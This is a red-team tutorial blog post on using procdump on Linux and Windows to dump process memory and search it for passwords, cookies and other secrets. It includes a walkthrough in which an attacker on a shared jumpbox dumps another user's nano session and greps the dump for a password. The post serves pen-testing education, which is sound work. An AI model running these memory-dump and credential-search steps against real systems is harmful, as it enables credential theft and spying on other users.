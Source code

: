 ```yaml
---
title: "Using procdump on Linux to dump credentials"
date: 2021-08-09T10:00:20-07:00
draft: true
tags: [
        "tools" ,"red"
    ]
---
```



I like using `procdump` on Windows. 

It’s quite handy for software development when systems have memory leaks or performance issues, `procdump` allows to set thresholds to trigger creation of a core dump. 

**BUT, it’s also super useful to search processes for secrets and other information.** 

For instance, this one liner will dump the memory of all processes to hard disk and then you can search them as you see fit.

```
Get-Process | % { procdump.exe -ma $_.Id }
```

This is not the most elegant way of course, but I have found this extremely useful at times. 

This post is solely focused on `procdump`, so I wanted to highlight that there is another useful tool on Windows called [`Mimikittenz`](https://github.com/putterpanda/mimikittenz), which utilizes `ReadProcesMemory` to search process memory without creating a file on disk. **But, let's focuson on procdump and Linux!**

## Procdump on Linux!

`procdump` is has also available on Linux for some time now. Although it has not gotten as much attention from the security community and pen testers.

![procdump in action](https://raw.githubusercontent.com/Sysinternals/ProcDump-for-Linux/master/procdump.gif)

In this post I want to highlight some examples on how to use it on Linux to improve your pen testing skills.


## Installation

On Ubuntu the Microsoft keys are not trusted by default, so you can either manually build the project or download and trust Microsoft's keys, and then use `sudo apt` to install. Detailed instructions for various platforms are located [here](https://github.com/Sysinternals/ProcDump-for-Linux/blob/master/INSTALL.md).

### Installing Microsoft's key on Ubuntu 

```
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

### Installing `procdump`

```
sudo apt-get update
sudo apt-get install procdump
```

### Building `procdump` from scratch

For pen testing the preferred option (if the tool is not yet available) to build it from scratch. Instructions can be found on [`procdump`'s Github repo](https://github.com/Sysinternals/ProcDump-for-Linux/blob/master/INSTALL.md).


## Basic usage and features

When invoking `procdump` specify the `PID` and the tool will do its magic to create a core memory dump.

```
sudo procdump -o /tmp -p 27390
```

Above I also specified the `-o` to write the dump to a specific folder. 

Most features are useful for debugging performance and memory leak kind of issues. For instance, it’s possible to dump the memory when the CPU is under a certain load and so on. 

These features are less interesting for red teamer's nefarious purposes.

It's also possible to use the `imagename` instead of the `PID` with the `-w` options, for instance:

```
sudo procdump -w firefox
```

This will write a core memory dump of the browser to the hard drive, and afterwards one go [credential hunting and look for passwords and cookies](/blog/posts/2020/hunting-for-credentials) inside it.

## Demo Scenario

Let's say the malicious engineer wants to see what another user is up to on a Jumpbox. 

The attacker already pivoted onto that host and now is inspecting the processes and notices that user `Bob` is working in nano. 

### Attacker uses `procdump` on Bob's nano process

```
sudo procdump -w nano
```

This is how the output looks like:
![Attacker dumping nano](/blog/images/2021/procdump.png)

### Attacker searches the core memory dump for interesting information

The next step is to analyze the memory dump, let's to a simple string search and grep:

```
~$ strings nano_time_2021-08-09_10\:23\:42.3197  | grep password
password="
password=helloWorld!
```

Screenshot of the procedure:

![Attacker searching for passwords](/blog/images/2021/procdump_grep.png)

After getting a hold of the process memory, you can use `grep`, `strings` or the previously mentioned [Silver Searcher](/blog/2021/silversearcher-ag) to search through the core dump files.

### What did Bob work on at that moment?

Finally, as a reference, this is how Bob's session looked like at that point. He was working in `nano`, using it as a scratchpad for passwords, which he does never store onto disk.

![Bob uses nano](/blog/images/2021/procdump_nano.png)

The interesting thing is that many developers and engineers do exactly as Bob did. They use ephemeral, non-persistent notepad files, etc. to temporarily hold credentials.

## Conclusion

`procdump` is quite neat and useful. Hope this mini-intro was helpful to learn more about `procdump` and its existance on Linux.


Cheers,
[@wunderwuzzi23](https://twitter.com/wunderwuzzi23)


## References

* [Microsoft Github Repo - ProcDump for Linux](https://github.com/microsoft/procdump-for-linux)
* [Mimikittenz](https://github.com/putterpanda/mimikittenz)
